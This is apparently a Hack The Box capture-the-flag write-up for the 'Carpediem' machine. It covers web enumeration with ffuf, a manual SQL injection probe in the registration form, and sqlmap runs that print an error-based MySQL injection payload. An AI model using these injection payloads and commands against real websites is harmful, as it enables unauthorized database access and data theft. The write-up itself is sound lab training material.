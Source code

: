 `http://portal.carpediem.htb` is a unexpected motorcycle shop. 
![[/assets/images/htb-writeup-carpediem/carpediem02.png]]

Looking around on the `portal` page we have a lot of parameters to fuzz, starting with `search` I find nothing. Next moving on to `?p=` I'm able to create a loop which will exhaust the memory revealing the directory location:
![[/assets/images/htb-writeup-carpediem/carpediem03.png]]

Testing any other of the found parameters, example `uploads`, we get this message:
```php
Warning: include(uploads/index.php): failed to open stream: No such file or directory in /var/www/html/portal/index.php on line 14

Warning: include(): Failed opening 'uploads/index.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/portal/index.php on line 14
```

I'm unable to do anything of use with this information, so lets move on. 

```bash
➜  carpediem ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://portal.carpediem.htb/FUZZ/
.htaccess               [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 71ms]
.htpasswd               [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 75ms]
admin                   [Status: 200, Size: 27834, Words: 7052, Lines: 567, Duration: 89ms]
assets                  [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 63ms]
build                   [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 66ms]
classes                 [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 55ms]
dist                    [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 64ms]
icons                   [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 65ms]
inc                     [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 65ms]
libs                    [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 63ms]
plugins                 [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 41ms]
server-status           [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 68ms]
uploads                 [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 63ms]
```

Browsing to `/admin` we get a alert saying `Access Denied!`, trying to register a user account and testing again result in the same thing.

Playing around with the register function we can confirm that there is a user called `admin`:
![[/assets/images/htb-writeup-carpediem/carpediem04.png]]

We're able to break the SQL syntax by entering username `'ORDER BY 1--`:
![[/assets/images/htb-writeup-carpediem/carpediem05.png]]

Save the request to a file and fire up `sqlmap` to do the heavy lifting for you.
```bash
➜  carpediem sqlmap -r register.req -p username
[... snip ...]
[12:35:21] [INFO] POST parameter 'username' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable
sqlmap identified the following injection point(s) with a total of 996 HTTP(s) requests:
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: firstname=asdf&lastname=asdf&contact=asdf&gender=Male&address=asdf&username=injectpls'||(SELECT 0x62626476 WHERE 4087=4087 AND GTID_SUBSET(CONCAT(0x7178627671,(SELECT (ELT(5583=5583,1))),0x71707a7a71),5583))||'&password=asdf
---
[12:35:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 7.4.25, Nginx 1.18.0
back-end DBMS: MySQL >= 5.6

➜  carpediem sqlmap -r register.req -p username --dbs
```